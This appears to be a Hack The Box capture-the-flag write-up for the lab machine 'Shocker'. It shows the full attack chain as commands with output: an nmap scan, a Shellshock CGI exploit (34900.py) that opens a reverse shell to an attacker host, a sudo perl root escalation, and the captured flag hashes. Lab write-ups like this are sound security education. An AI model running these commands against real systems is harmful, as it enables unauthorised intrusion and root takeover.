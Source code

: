 # Shocker
#### 10.10.10.56

```{r, engine='bash', count_lines}
nmap -sS -sV 10.10.10.56

Nmap scan report for 10.10.10.56
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
4444/tcp open  krb524?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 160.59 seconds
```



We visit the website and there is nothing special.
The port 2222 running a ssh looks interesting however OpenSSH 7.2p2 only has a User Enumeration POC

Time to bring out **Dirbuster**

After a scan with a medium wordlist nothing juicy was found.
It had the normal cgi folders and images folders

The name of the box looks suspicious though. Must be a shellshock vuln!

After a little google dorking we find something like this:
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/is_vuln_if.png "Is vuln if")

The first three points look perfect for our system. AND for the last point we need a bash script.
Dirbuster the great can help us search with file extensions
![Alt text](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/dirbuster.png "Dirbuster")

Now we got a presumably vulnerable bash script

**Time to go hunting**

Searchsploiting apache mod cgi gives us 34900.py
![Alt text](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/searchsploit.png "Searchsploit")


The python script won't work out of the box though. We need to add the vulnerable bash script into the the scope.
We add it under the pages array

![Alt text](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/adding_pages.png "Adding Pages")



**And we go exploiting**
```{r, engine='bash', count_lines}
root@kali:~/Hackthebox/Shocker# python 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.xx lport=1234
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> ifconfig
ens33     Link encap:Ethernet  HWaddr 00:50:56:aa:13:57  
          inet addr:10.10.10.56  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feaa:1357/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feaa:1357/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:12028204 errors:0 dropped:511 overruns:0 frame:0
          TX packets:10213659 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:1945868761 (1.9 GB)  TX bytes:2286172156 (2.2 GB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:352786 errors:0 dropped:0 overruns:0 frame:0
          TX packets:352786 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:26113324 (26.1 MB)  TX bytes:26113324 (26.1 MB)
```



We got **_shellz_**

```{r, engine='bash', count_lines}
10.10.10.56> ls /home
heba
shelly

10.10.10.56> cd /home/shelly
10.10.10.56> ls -lah
total 84K
drwxr-xr-x 6 shelly shelly 4.0K Oct  9 04:59 .
drwxr-xr-x 4 root   root   4.0K Oct  9 06:21 ..
-rw------- 1 root   root      0 Sep 25 08:29 .bash_history
-rw-r--r-- 1 shelly shelly  220 Sep 22 12:33 .bash_logout
-rw-r--r-- 1 shelly shelly 3.7K Sep 22 12:33 .bashrc
drwx------ 2 shelly shelly 4.0K Sep 22 12:35 .cache
drwxrwxr-x 2 shelly shelly 4.0K Sep 22 15:49 .nano
-rw-r--r-- 1 shelly shelly  655 Sep 22 12:33 .profile
-rw-r--r-- 1 root   root     66 Sep 22 15:43 .selected_editor
drwx------ 2 shelly shelly 4.0K Oct  8 21:49 .ssh
-rw-r--r-- 1 shelly shelly    0 Sep 22 12:35 .sudo_as_admin_successful
-rwxr-xr-x 1 shelly shelly  14K Oct  8 22:06 doubleput
drwxr-xr-x 2 root   root      0 Dec 31  1969 fuse_mount
-rwxr-xr-x 1 shelly shelly  14K Oct  8 22:05 hello
-rwxr-xr-x 1 shelly shelly 8.5K Oct  8 22:05 suidhelper
-rw-r--r-- 1 root   root     33 Sep 22 15:37 user.txt

10.10.10.56> cat user.txt
2ec24e11320026d1e70ff3e16695b233
```

**Priv Esc**
We check shellys home directory and we see that sudo as admin successful is present
Lets check with sudo -l on what privs shelly actually has
```{r, engine='bash', count_lines}
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
Oh Snap!
Shell has root access for perl. Seems legit  :wink:

So we should technically get root if we spawn a tty using perl
```{r, engine='bash', count_lines}
10.10.10.56> sudo perl -e 'exec "/bin/sh";'
10.10.10.56> id
uid=0(root) gid=0(root) groups=0(root)

10.10.10.56> cd /root
10.10.10.56> ls -lah
total 32K
drwx------  4 root root 4.0K Sep 22 15:36 .
drwxr-xr-x 23 root root 4.0K Sep 22 12:43 ..
-rw-------  1 root root    0 Sep 25 08:23 .bash_history
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Sep 22 15:36 .cache
drwxr-xr-x  2 root root 4.0K Sep 22 15:33 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   33 Sep 22 15:36 root.txt
-rw-r--r--  1 root root  170 Sep 22 15:59 .wget-hsts

10.10.10.56> cat root.txt
52c2715605d70c7619030560dc1ca467
```
